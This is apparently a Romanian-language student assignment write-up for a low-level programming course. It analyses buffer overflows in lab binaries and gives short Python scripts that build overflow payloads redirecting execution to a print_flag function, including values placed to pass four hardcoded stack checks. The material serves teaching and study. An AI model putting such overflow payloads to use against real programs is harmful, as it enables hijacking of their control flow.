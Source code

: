 # IOCLA Tema 3

## Exercitiul 1

O posibila vulnerabilitate este legata de buffer overflow. La adresa 0x8048663 din cod , unde se afla un "entry point" in functia "print_flag" (care are mai multe entry point-uri), se aloca spatiu pe stiva pentru a citi un string de la tastatura. Spatiul alocat pe stiva este mult mai mic decat cel ce poate fi citit de la tastatura. Putem folosi astfel un string mai mare pentru a genera un buffer overflow si sa alteram control flow-ul programului, deoarece, dupa citirea sirului de caractere, de pe stiva se incarca in $eax o adresa, unde va sari executia programului (call eax)

Provocand un buffer overflow, putem incarca o alta valoare in $eax, de pe stiva, si astfel, sa sarim cu executia programului la o adresa aleasa de noi.

Adresa entry point-ului : 0x8048663 (unde incep problemele)

## Exercitiul 2

In urma analizarii executabilului (cu ajutorul gdb si afl-fuzz) am determinat lungimea minima a unui string/payload ca fiind de 1118 caractere (1117 caractere se incadreaza in limite). Urmatoarele 4 caractere din payload sunt incarcate in registrul eax (ca pointer), si apoi executia programului sare la acel pointer. Am contruit payload-ul folosind urmatorul script python:

```python
import struct
pad = "\x41" * 1117
EIP = struct.pack("I", 0x080485b1);
print pad + EIP
```

Avem un padding de 1117 bytes, urmat de adresa la care vom sari, 0x080485b1, inceputul functiei print_flag.

## Exercitiul 3

La fel ca la primul binar, vulnerabilitatea este reprezentata de posibilitatea utilizarii unui buffer overflow pentru a suprascrie o "adresa de intoarcere" (se face un "call eax", dupa ce registrul $eax a primit o valoare de pe stiva).

Adresa entry point-ului : 0x08048682 (unde incep problemele)

Totusi, acea "adresa de intoarcere" nu este singura valoare ce trebuie suprascrisa pentru a face ce ne-am propus, deoarece exista 4 "teste" : se cauta valori pe stiva si se verifica daca sunt egale cu anumite valori hardcodate. Raspunsurile care trebuiesc date sunt, in ordine, urmatoarele: 
- 0x5b0aeb93
- 0x434a5c2c
- 0x08108164
- 0xabdc4f01
  
Folosind peda, am creat un pattern, pe care l-am folosit ca payload. Cand ajungeam la "teste", cautam in payload valoarea testata, pentru a-i afla pozitia.

- 0x5b0aeb93 - 229
- 0x434a5c2c - 470
- 0x08108164 - 648
- 0xabdc4f01 - 720

Am construit payloadul folosind urmatorul script python:
```python
import struct
test1 = "\x41" * 229
answer1 = struct.pack("I", 0x5b0aeb93);
test2 = "\x42" * 237
answer2 = struct.pack("I", 0x434a5c2c);
test3 = "\x43" * 174
answer3 = struct.pack("I", 0x08108164);
test4 = "\x44" * 68
answer4 = struct.pack("I", 0xabdc4f01);

pad = "\x41" * 447
EIP = struct.pack("I", 0x080485b1);
print test1 + answer1 + test2 + answer2 + test3 + answer3 + test4 + answer4 + pad + EIP
```
test* si pad - padding pentru valori
answer* si EIP - valorile care vrem sa le setam

Dimensiunile padding-urilor sunt calculate dupa formula:
```
size = loc_test_curr - loc_test_prev - 4

size = dimensiunea dorita
loc_test_curr = pozitia in input a "raspunsului" la testul curent
loc_test_prev = pozitia in input a "raspunsului" la testul anterior
4 = dimensiunea in bytes a raspunsului anterior

Pentru test 3 : 648 - 470 - 4 = 174
```

Folosind aceeasi metoda, am aflat locatia de unde se incarca valoarea registrului $eax, pentru care se face call (1171). De unde a rezultat dimensiunea 447 a padingului.

Adresa care vrem sa fie scrisa este 0x080485b1, inceputul functiei print_flag.